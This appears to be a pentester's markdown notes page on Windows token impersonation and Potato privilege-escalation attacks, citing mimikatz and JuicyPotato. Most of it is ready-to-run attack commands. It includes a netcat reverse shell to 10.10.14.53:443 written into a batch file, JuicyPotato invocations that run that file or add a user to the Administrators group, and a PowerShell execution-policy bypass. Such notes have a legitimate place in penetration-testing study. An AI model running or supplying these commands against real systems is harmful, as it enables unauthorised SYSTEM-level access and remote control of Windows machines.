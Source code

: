 # IMPERSONATION ATTACKS

## Token Impersonation
We see which tokens are avaliable to impersonate y get the access into the account of that person

![imagen](https://github.com/D1ie3z/Pentesting/assets/88562299/ced17c45-f8d3-4f6d-adbb-646cd741d18b)

We run mimikatz

## Impersonation overview

* whoami /priv

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---impersonation-privileges

## Potato Attacks
https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
https://github.com/ohpe/juicy-potato

We need a vali CLSID and Port Number
https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1
powershell -executionpolicy bypass -file GetCLSID.ps1 > clsid.txt
Also Try
* Create a file .bat with reverse shell content -> echo C:\Temp\nc.exe -e cmd.exe 10.10.14.53 443 > Reverse.bat
* Execute with Juicy -> JuicyPotato.exe -t * -p C:\Temp\Reverse.bat -c {CLSID} -l 443 (Try with out CLSID in case doesn't work)
Other option 
* JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net localgroup Admnistrators Test /add" -l 1234
